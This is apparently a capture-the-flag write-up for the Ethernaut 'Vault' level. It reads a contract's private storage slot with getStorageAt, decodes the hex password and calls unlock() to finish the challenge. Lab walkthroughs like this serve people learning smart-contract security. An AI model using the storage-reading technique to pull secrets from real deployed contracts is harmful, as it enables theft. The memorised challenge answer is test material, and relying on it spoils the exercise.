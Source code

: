 ## Ethernaut 
### Vault

While remembering that everything on the blockchain is public, we are able to retrieve storage areas of the contract.

In the console:
- web3.eth.getStorageAt(instance, 1);
Returns
- "0x412076657279207374726f6e67207365637265742070617373776f7264203a29"
- Utilising [https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')](CyberChef) to convert to ASCII the password is "A very strong secret password :)"
Call the unlock() function with the hex as a string
- contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")

Once we have unlocked the contract the challenge is complete, click the "Submit Instance" button and approve that transaction to complete the level.

✌(◕‿-)✌ Well done, You have completed this level!!!